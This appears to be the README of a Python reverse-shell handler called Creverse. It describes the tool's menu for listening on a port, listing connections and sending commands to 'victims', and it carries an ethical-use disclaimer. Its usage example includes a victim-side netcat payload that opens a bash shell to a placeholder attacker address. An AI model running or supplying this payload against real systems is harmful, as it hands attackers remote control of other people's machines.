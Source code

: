 #  Creverse 

Advanced Reverse Shell Handler with Beautiful ASCII Art Interface

##  Description

This tool allows you to receive connections from victims (reverse shell) via TCP. The tool is designed for educational and ethical testing purposes only.

##  Important Warning

**This tool is for educational and ethical testing purposes only!**

- Do not use it for any malicious or illegal purposes
- Use it only in isolated testing environments
- Get written permission before testing any systems

##  Features

-  Beautiful ASCII art interface with colors
-  Multi-connection support
-  Active connections display
-  Victim control
-  Event logging
-  Easy configuration
-  Comprehensive error handling

##  Requirements

- Python 3.6+
- Operating system that supports Python

##  Installation

1. **Clone the project:**
```bash
git clone <repository-url>
cd creverse
```

2. **Install Python:**
```bash
# Windows
# Download from https://python.org

# Linux/macOS
sudo apt-get install python3  # Ubuntu/Debian
brew install python3          # macOS
```

3. **Run the tool:**
```bash
python3 reverse_shell_handler.py
```

##  How to Use

### 1. Start Server
- Choose option `[1]` from the menu
- Enter IP address (or leave empty for 0.0.0.0)
- Enter port number (example: 4444)

### 2. Wait for Connections
- Server will start listening
- Wait for victim to connect

### 3. Control Victim
- Choose option `[3]` for control
- Select connection ID
- Type commands (example: `dir`, `whoami`, `ipconfig`)

### 4. Manage Connections
- Option `[2]` to show active connections
- Option `[4]` to show event log
- Option `[5]` to stop server

##  Usage Example

### On Attacker Machine:
```bash
python3 reverse_shell_handler.py
# Choose [1] and enter IP:PORT
# Wait for connection
```

### On Victim Machine:
```bash
# Simple payload example
nc -e /bin/bash [ATTACKER_IP] [PORT]
```

##  Project Structure

```
creverse/
├── reverse_shell_handler.py    # Main handler
├── payload_generator.py        # Payload generator
├── README.md                   # This file
└── requirements.txt            # Requirements (optional)
```

##  Technical Features

- **Multi-threading**: Multi-connection support
- **Socket Programming**: Advanced network programming
- **Error Handling**: Comprehensive error handling
- **Color Support**: Terminal color support
- **Connection Management**: Connection management
- **Event Logging**: Event logging

##  Security

- Tool only receives TCP connections
- No known security vulnerabilities
- Designed for use in isolated environments
- Does not send any external data

##  Troubleshooting

### Issue: "Address already in use"
```bash
# Use different port
# Or stop service using the port
```

### Issue: "Permission denied"
```bash
# Ensure you have sufficient permissions
# Try running as administrator/root
```

### Issue: Colors not showing
```bash
# Ensure terminal supports colors
# Try different terminal
```

## Additional Resources

- [Python Socket Programming](https://docs.python.org/3/library/socket.html)
- [Network Security](https://owasp.org/)
- [Ethical Hacking](https://www.ec-council.org/)

##  Contributing

We welcome contributions! Please:
- Fork the project
- Create new branch
- Send Pull Request

##  License

This project is open source and available under MIT license.

##  Support

If you encounter any issues:
- Check troubleshooting section
- Search in Issues
- Create new Issue

##  Acknowledgments

- Cybersecurity community
- Python developers
- All contributors

---

**Remember: Responsible use only! **

